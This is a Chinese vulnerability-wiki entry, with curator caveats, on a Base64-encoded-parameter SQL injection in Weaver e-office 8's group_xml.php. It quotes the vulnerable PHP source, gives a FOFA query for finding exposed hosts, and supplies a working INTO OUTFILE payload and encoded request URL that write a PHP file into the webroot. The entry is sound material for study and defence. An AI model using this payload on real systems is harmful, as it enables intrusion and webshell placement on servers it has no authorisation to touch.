

# 泛微e-office8 group_xml.php Base64参数SQL注入

## 条目说明

- 对象与具体问题：泛微e-office8；group_xml.php Base64参数SQL注入
- 版本、配置及部署条件：8；MySQL FILE权限、secure_file_priv/路径可写等决定outfile能力
- 认证与权限前提：页内session_start不等于鉴权；全局前置未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整源码和explodeStPar解释可定位根因；不是因为未加双引号本身，而是未绑定/验证输入
- 写Webshell样本有高权限和可执行目录条件，不能视为所有SQLi必然RCE
- Base64只是传输编码，结果仅截图；应补修复版本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

泛微OA E-Office group_xml.php文件存在SQL注入漏洞，攻击者通过漏洞可以写入Webshell文件获取服务器权限

### 漏洞影响

```
泛微OA E-Office 8
```

### 网络测绘

```
app="泛微-EOffice"
```

### 漏洞复现

登录页面


存在漏洞的文件为 `inc/group_user_list/group_xml.php`

```
session_start( );
include_once( "inc/conn.php" );
include_once( "inc/xtree_xml.inc.php" );
include_once( "inc/utility_all.php" );
header( "Expires: Mon, 26 Jul 1997 05:00:00 GMT" );
header( "Cache-Control: no-cache, must-revalidate" );
header( "Pragma: no-cache" );
header( "Content-Type: text/xml" );
$pararr = explodestpar( $_REQUEST['par'] );
$groupid = $pararr['groupid'];
if ( $groupid == "" )
{
				exit( );
}
$groupurl_fix = "?";
$userurl_fix = "?";
if ( 0 < strpos( $pararr['group_url'], "?" ) )
{
				$groupurl_fix = "&";
}
if ( 0 < strpos( $pararr['user_url'], "?" ) )
{
				$userurl_fix = "&";
}
$xtreeXml = new xtreeXml( );
$xtreeXml->initXml( );
if ( $pararr['group'] == 1 )
{
				$sql = "SELECT * FROM pub_group WHERE GROUP_ID=".$groupid."";
}
else
{
				$sql = "SELECT * FROM USER,USER_GROUP WHERE USER_GROUP.GROUP_ID=".$groupid."";
}
$rs = exequery( $connection, $sql );
$row = mysql_fetch_array( $rs );
$groupmember = $row['GROUP_MEMBER'];
```

$groupid没有被双引号包裹，然后造成注入。然后$groupid来自于$pararr['groupid'];其中经过了$explodestpar这个函数

```
function explodeStPar( $enpar )
{
				$depar = base64_decode( $enpar );
				$arrpar = explode( "|", $depar );
				if ( !is_array( $arrpar ) )
				{
								return false;
				}
				$i = 0;
				for ( ;	$i < sizeof( $arrpar );	++$i	)
				{
								$strpar = $arrpar[$i];
								$tmparr = explode( ":", $strpar );
								$j = 0;
								for ( ;	$j < sizeof( $tmparr );	++$j	)
								{
												if ( $j == 0 )
												{
																preg_match( "/\\[([a-z0-9-_].+)\\]/i", $tmparr[$j], $exp );
																$par = $exp[1];
												}
												else
												{
																preg_match( "/\\[(.*)\\]/i", $tmparr[$j], $exp );
																$val = $exp[1];
												}
								}
								if ( trim( $par ) != "" )
								{
												$rearr[$par] = $val;
								}
				}
				return $rearr;
}
```

构造EXP写入文件

```
[group]:[1]|[groupid]:[1 union select '<?php phpinfo()?>',2,3,4,5,6,7,8 into outfile '../webroot/vulntest.php']
|
| base64
|
/inc/group_user_list/group_xml.php?par=W2dyb3VwXTpbMV18W2dyb3VwaWRdOlsxIHVuaW9uIHNlbGVjdCAnPD9waHAgcGhwaW5mbygpPz4nLDIsMyw0LDUsNiw3LDggaW50byBvdXRmaWxlICcuLi93ZWJyb290L3Z1bG50ZXN0LnBocCdd
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
